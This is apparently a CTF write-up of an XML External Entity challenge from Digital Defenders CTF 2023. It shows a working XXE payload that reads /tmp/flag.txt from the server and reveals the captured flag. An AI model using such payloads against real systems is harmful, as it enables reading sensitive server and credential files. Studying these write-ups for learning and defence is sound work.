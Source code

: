# XML Parser (Web) - Digital Defenders CTF 2023

## Description
> Oh, how delightful! You're just dying to receive some input to parse, aren't you? And the best part is, we never bother checking your inputs because, who needs safety precautions? So, here's a special treat just for you—a perfectly crafted server that will surely make your parsing adventure a thrilling rollercoaster ride. Don't fret about any potential risks or vulnerabilities. After all, why would anyone take advantage of such a glorious opportunity? So, go ahead and trust blindly as you delve into parsing this magical piece of data. Best of luck, dear friend, and may the parsing deities shower you with blessings!
>
> _The flag is in /tmp/flag.txt_

> **FLAG FORMAT:** bi0s{...}

## The Website
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/c89d8c25-eb2d-4c3c-876a-de93abb9f8d4)
The website has a textbox to enter XML in. On pressing submit, it parses the XML to display the output right there.
  
I wrote the following code to try it out
```XML
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```
  
On entering the above code and hitting "Submit", we get
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/fe2ae83c-6a2e-4520-93e0-f43fc23bb71f)

## Initial Takeaway
The challenge description made the goal very clear, to exploit XML External Entity Attack. The vulnerability this attack uses is parsing of XML code as is by a website.
So all I had to do was to craft an XML code to execute some command. The description also mentioned that the flag is located in `/tmp/flag.txt`. This made it clear that I had to execute a command to get the contents of `flag.txt`.
Another point to note down was that the website was using a POST request.

## Execution
I crafted the following XML code to execute my command
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///tmp/flag.txt">
]>
<foo>&xxe;</foo>
```
In simple words, it does exactly as I had planned earlier. The code gets the output of `flag.txt` and stores it in the variable `xxe`. Then it dereferences `xxe` to display the output on the screen the same way it displayed "Hello World".
So, I entered the code as decided and hit "Submit".
  
Et voilà
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/8487192e-7149-4757-b94f-632a1f54cc2a)

**(DISCLAIMER):** One thing to note is that according to the information released by the organisers, some CTF challenges use dynamic flags. Hence, the flag I solved the challenge with and the flag at the time of writing this write-up are different.
The method however remains the same.

**FLAG:** `bi0s{icsTXDzJJDiv6FeaNshGkw==}`
